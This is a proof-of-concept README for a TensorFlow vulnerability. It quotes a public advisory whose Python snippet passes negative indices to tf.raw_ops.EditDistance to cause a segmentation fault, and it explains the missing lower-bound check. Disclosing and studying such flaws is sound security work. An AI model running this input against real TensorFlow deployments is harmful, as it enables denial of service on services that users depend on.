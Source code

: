 # TensorFlow EditDistance Vulnerability PoC

## POC URL
https://github.com/tensorflow/tensorflow/security/advisories/GHSA-2r2f-g8mw-9gvr

## Compilation Environment
- Python 3.x
- TensorFlow versions < 2.6.4, < 2.7.2, < 2.8.1, or < 2.9.0

## Run Command
```
python3 tf_editdistance_poc.py
```

## Expected Output
Impact
The implementation of tf.raw_ops.EditDistance has incomplete validation. Users can pass negative values to cause a segmentation fault based denial of service:

import tensorflow as tf

hypothesis_indices = tf.constant(-1250999896764, shape=[3, 3], dtype=tf.int64) 
hypothesis_values = tf.constant(0, shape=[3], dtype=tf.int64)
hypothesis_shape = tf.constant(0, shape=[3], dtype=tf.int64)

truth_indices = tf.constant(-1250999896764, shape=[3, 3], dtype=tf.int64)
truth_values = tf.constant(2, shape=[3], dtype=tf.int64)
truth_shape = tf.constant(2, shape=[3], dtype=tf.int64) 

tf.raw_ops.EditDistance(
  hypothesis_indices=hypothesis_indices,
  hypothesis_values=hypothesis_values,
  hypothesis_shape=hypothesis_shape,
  truth_indices=truth_indices,
  truth_values=truth_values,
  truth_shape=truth_shape)
In multiple places throughout the code, we are computing an index for a write operation:

if (g_truth == g_hypothesis) {
  auto loc = std::inner_product(g_truth.begin(), g_truth.end(),
                                output_strides.begin(), int64_t{0});
  OP_REQUIRES(
      ctx, loc < output_elements,
      errors::Internal("Got an inner product ", loc,
                       " which would require in writing to outside of "
                       "the buffer for the output tensor (max elements ",
                       output_elements, ")"));
  output_t(loc) =
      gtl::LevenshteinDistance<T>(truth_seq, hypothesis_seq, cmp);
  // ...
}
However, the existing validation only checks against the upper bound of the array. Hence, it is possible to write before the array by massaging the input to generate negative values for loc.